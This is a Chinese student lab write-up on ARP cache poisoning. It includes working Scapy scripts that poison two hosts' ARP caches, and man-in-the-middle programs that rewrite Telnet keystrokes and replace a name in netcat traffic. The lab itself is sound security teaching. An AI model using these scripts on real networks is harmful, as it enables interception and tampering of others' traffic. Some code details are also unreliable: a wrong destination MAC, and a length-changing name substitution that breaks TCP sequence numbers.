> **步骤1**（启动ARP缓存中毒攻击）。首先，主机M对A和B进行了ARP缓存中毒攻击，以便在A的ARP缓存，B的IP地址映射到M的MAC地址，在B的ARP缓存中，A的IP地址也将其映射到M的Mac地址。 在此步骤之后，在A和B之间发送的数据包将全部发送到M。我们将使用任务1的ARP缓存中毒攻击来实现此目标。 最好不断发送欺骗数据包（例如每5秒）； 否则，假条目可能被真实的条目代替。


<center>图2：对Telnet的中间人攻击</center>

```python
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"


# Poisoning A's mac
# Sending ARP reply from M->A
ethA = Ether(src=M_mac, dst=A_mac)
arpA = ARP(hwsrc=M_mac, psrc=B_ip,
           hwdst=A_mac, pdst=A_ip)
arpA.op = 2


# Poisoning B's arp
# Sending reply from M->B
ethB = Ether(src=M_mac, dst=B_mac)
arpB = ARP(hwsrc=M_mac, psrc=A_ip,
           hwdst=A_mac, pdst=B_ip)
arpB.op = 2


pkt1 = ethA/arpA
pkt1.show()
sendp(pkt1, count=1)
pkt2 = ethB/arpB
pkt2.show()
sendp(pkt2, count=1)
```

我们采用回复的方式来修改其缓存表




查看A的缓存表



查看B的缓存表



已然完成欺骗

### **步骤2**（测试）

> **步骤2**（测试）。 攻击成功后，请尝试在主机A和B之间互相ping，并报告您的观察结果。 请在您的报告中显示Wireshark结果。 在执行此步骤之前，请确保关闭主机M上的IP转发。 您可以使用以下命令来执行此操作：
>
> ```bash
> sysctl net.ipv4.ip_forward=0
> ```
>



测试时，我们那发现先是会被欺骗一阵子，但随后又会恢复正确通讯。

wireshark发现，这是由于长期不回复，于是便再次发送ARP请求获取了正确的mac地址。



我们修改程序，按要求每5秒发一次

```python
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"

while True:
    # Poisoning A's mac
    # Sending ARP reply from M->A
    ethA = Ether(src=M_mac, dst=A_mac)
    arpA = ARP(hwsrc=M_mac, psrc=B_ip,
               hwdst=A_mac, pdst=A_ip)
    arpA.op = 2

    # Poisoning B's arp
    # Sending reply from M->B
    ethB = Ether(src=M_mac, dst=B_mac)
    arpB = ARP(hwsrc=M_mac, psrc=A_ip,
               hwdst=A_mac, pdst=B_ip)
    arpB.op = 2

    pkt1 = ethA/arpA
    pkt1.show()
    sendp(pkt1, count=1)
    pkt2 = ethB/arpB
    pkt2.show()
    sendp(pkt2, count=1)
    time.sleep(5)
```

运行脚本，让其每隔五秒进行一次arp欺骗

```bash
python3 t22pro.py
```



发现它们始终ping不通

```bash
A机器上 ping B
ping 10.9.0.6

B机器上 ping A
ping 10.9.0.5
```



wireshark发现虽然还是没有回应，但由于一直更新arp表进行欺骗，设备也没有发出ARP请求。



### **步骤3**（打开IP转发）

> **步骤3**（打开IP转发）。 现在，我们打开主机M上的IP转发，因此它将转发A和B之间的数据包。请运行以下命令并重复步骤2。请描述您的观察结果。
>
> ```bash
>  sysctl net.ipv4.ip_forward=1
> ```

先在M上运行欺骗脚本



随后A、B之间相互ping。



从图中我们可以很清晰的看到，A、B都有来自M的重定向数据报。如果你的页面显示不同，你可以修改步骤二的代码，将最后一行的 `time.sleep(5)`修改为`time.sleep(2)`，以让其更快的发送欺骗信息。

wireshark中也能观察到重定向的过程



### **步骤4**（启动中间人攻击）

> **步骤4**（启动中间人攻击）。我们准备对A和B之间的telnet数据进行更改。假设A是Telnet客户端，而B是Telnet服务器。 A在B上连接到telnet服务器后，对于在A的telnet窗口中键入的每个内容，都会生成TCP数据包并发送到B。我们想拦截TCP数据包，并用固定字符替换每个类型的字符（例如 Z ）。这样，用户在A上内容无论输入什么，telnet将始终显示Z。

> 从前面的步骤中，我们能够将TCP数据包重定向到主机M，但是我们不想转发它们，而是想用欺骗的数据包代替它们。我们将编写一个嗅探程序来实现这一目标。特别是，我们想做以下操作：
>
> - 我们首先保持IP转发，因此我们可以在A到B之间成功创建telnet连接。建立连接后，我们使用以下命令关闭IP转发。请在A的Telnet窗口上输入一些内容，并报告您的观察：
>
> ```bash
>  sysctl net.ipv4.ip_forward=0
> ```
>

先在一个M的shell将步骤二的欺骗程序打开，欺骗不能停，否则会自动恢复



随后telnet连接，$A \to B$

```bash
telnet 10.9.0.6
```



> - 我们在主机M上运行我们的嗅觉程序，因此，对于从A到B发送的捕获的数据包，我们对数据包进行了欺骗，但具有TCP不同的数据。 对于从B到A的数据包（Telnet响应），我们没有进行任何更改，因此欺骗的数据包与原始数据包完全相同。
> - 为了帮助大家开始，我们在下面提供了一个框架嗅探和欺骗程序。程序捕获所有TCP数据包，然后对从A到B的数据包进行一些更改（不包括修改部分，因为这是任务的一部分）。对于从B到A的数据包，程序不做任何更改。
>
> ```python
> #!/usr/bin/env python3
> from scapy.all import *
> 
> IP_A = "10.9.0.5"
> MAC_A = "02:42:0a:09:00:05"
> IP_B = "10.9.0.6"
> MAC_B = "02:42:0a:09:00:06"
> 
> 
> def spoof_pkt(pkt):
>     if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
> 
>         # Create a new packet based on the captured one.
>         # 根据捕获的数据包创建一个新数据包。
>         # 1) We need to delete the checksum in the IP & TCP headers,
>         # because our modification will make them invalid.
>         # 1）我们需要删除IP和TCP头中的校验和，因为我们的修改将使它们无效。
>         # Scapy will recalculate them if these fields are missing.
>         # 如果缺少这些字段，Scapy将重新计算它们。
>         # 2) We also delete the original TCP payload.
>         # 2）我们还删除了原始TCP负载。
>         newpkt = IP(bytes(pkt[IP]))
>         del(newpkt.chksum)
>         del(newpkt[TCP].payload)
>         del(newpkt[TCP].chksum)
>         #################################################################
>         # Construct the new payload based on the old payload.
>         # 基于旧的有效载荷构造新的有效载荷。
>         # Students need to implement this part.
>         # 学生需要实现这一部分。
>         if pkt[TCP].payload:
>             data = pkt[TCP].payload.load  # The original payload data 原始有效载荷数据
>             newdata = data  # No change is made in this sample code 在此示例代码中没有进行更改
>             send(newpkt/newdata)
>         else:
>             send(newpkt)
>         ################################################################
>     elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
>         # Create new packet based on the captured one
>         # 根据捕获的数据包创建新数据包
>         # Do not make any change
>         # 不要做任何改变
>         newpkt = IP(bytes(pkt[IP]))
>         del(newpkt.chksum)
>         del(newpkt[TCP].chksum)
>         send(newpkt)
> 
> 
> f = 'tcp'
> pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
> ```
> 应该注意的是，上面的代码捕获了所有TCP数据包，包括程序本身生成的数据包。这是不可取的，因为它会影响性能。学生需要更改过滤器，这样它就不会捕获自己的数据包。

根据提示，我们将内容修改，将所有字母替换为 Z 。关于过滤，我们选择`f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'`，直接锁定mac地址

```python
#!/usr/bin/env python3
from scapy.all import *
import re

# Who can it be used? Write first!
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"


print("********** MITM attack on Telnet **********")


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            data = data.decode()
            print("Old:"+data)
            newdata = re.sub(r'[a-zA-Z]', r'Z', data)
            print("New:"+newdata)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)


f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```

接下来关闭转发，并启动中间人攻击

```
sysctl net.ipv4.ip_forward=0
```



启动后，无论我们输入什么，telnet上始终显示Z。这也是脚本处的输出也能印证。


> **Telnet的行为**：在Telnet中，通常情况下，我们在Telnet窗口中键入的每个字符都会触发一个单独的TCP数据包，但如果您键入得非常快，一些字符可能会在同一个数据包中一起发送。这就是为什么在从客户端到服务器的典型Telnet数据包中，有效负载只包含一个字符。发送到服务器的字符将被服务器回显，然后客户端将在其窗口中显示该字符。因此，我们在客户端窗口中看到的并不是打字的直接结果；无论我们在客户端窗口中键入什么，在显示之前都要经过一个往返过程。如果网络断开，在网络恢复之前，我们在客户端窗口中键入的内容都不会显示。类似地，如果攻击者在往返过程中将字符更改为Z，则Z将显示在Telnet客户端窗口中，即使您输入的不是Z。

## 任务3：基于ARP缓存中毒对Netcat进行中间人攻击

> 此任务与任务2类似，只是主机A和B使用netcat而不是telnet进行通信。主机M想要拦截它们的通信，因此它可以更改A和B之间发送的数据。您可以使用以下命令在A和B之间建立netcat TCP连接：

```bash
On Host B (server, IP address is 10.9.0.6), run the following:
# nc -lp 9090

On Host A (client), run the following:
# nc 10.9.0.6 9090
```

> 一旦建立了连接，您可以在A上键入消息。每行消息将被放入发送给B的TCP数据包中，B只显示消息。你的任务是用a序列替换消息中出现的每个名字。序列的长度应该与名字的长度相同，否则你会弄乱TCP序列号，从而弄乱整个TCP连接。你需要使用真实的名字，这样我们知道工作是由你完成的。

在任务二的基础上，依旧是要一直运行欺骗脚本，也有可能你压根没中断运行。

接着我们编写中间人攻击脚本。

```python
#!/usr/bin/env python3
from scapy.all import *

# We Only use ip
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"


print("********** MITM attack on Netcat **********")


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            print("Old:"+str(data))
            newdata = data.replace(b'Larry', b'SKPrimin') # replace name
            print("New:"+str(newdata))
            newpkt[IP].len = pkt[IP].len + len(newdata) - len(data)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].chksum)
        send(newpkt, verbose=False)


f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
pkt = sniff(filter=f, prn=spoof_pkt)
```

在A上输入内容，B上能够收到信息，然而当我们输入特定的内容时就会被替换。



攻击脚本处也能印证。



最后不要忘记<kbd>Ctrl + C</kbd>关闭所有程序，并关闭Docker。


